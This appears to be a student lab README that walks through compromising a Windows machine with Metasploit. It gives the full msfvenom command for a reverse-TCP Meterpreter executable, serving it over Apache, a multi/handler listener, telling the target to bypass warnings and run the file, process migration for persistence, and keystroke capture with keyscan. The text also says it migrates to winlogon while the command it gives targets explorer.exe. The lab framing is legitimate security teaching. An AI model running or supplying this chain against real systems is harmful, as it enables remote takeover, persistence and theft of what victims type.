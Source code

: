 
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

## DATE:

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/user-attachments/assets/2f69d906-0b7a-4878-8f96-272bacc10e00)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/user-attachments/assets/88b39238-d2b6-447d-bc46-08dc30ccab8e)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT
![image](https://github.com/user-attachments/assets/5034838b-e3d2-4f9f-b645-21b5c8ecdcba)

Start apache server
sudo systemctl apache2 start
## OUTPUT
![image](https://github.com/user-attachments/assets/7cb75fb5-6fa0-449a-8b21-e8f8b2fb6fcf)

Check the status of apache2
## OUTPUT
![image](https://github.com/user-attachments/assets/d8909df4-12f7-4a3a-888f-f8891c81c5e9)

Invoke msfconsole:
## OUTPUT:
![image](https://github.com/user-attachments/assets/9d3f4d70-6d31-454a-81e8-105eb0224090)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:
![image](https://github.com/user-attachments/assets/ffd46926-d6b7-4ad2-8df4-26cd01a10af1)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/e92d7605-0cdd-4a60-9fbc-f87490d37a9f)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
## OUTPUT:
![image](https://github.com/user-attachments/assets/2094ca08-d751-4add-af92-0ab1d0d1da53)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT:
![image](https://github.com/user-attachments/assets/e61066d7-12fb-4942-9f01-3906941f7c47)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:
![image](https://github.com/user-attachments/assets/fd50817c-df2b-40e2-bcb3-920d2baa5da0)

keyscan_dump Shows the keystrokes captured so far
## OUTPUT:
![image](https://github.com/user-attachments/assets/a5ce96df-cd40-4772-b531-90cf2462d6bf)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
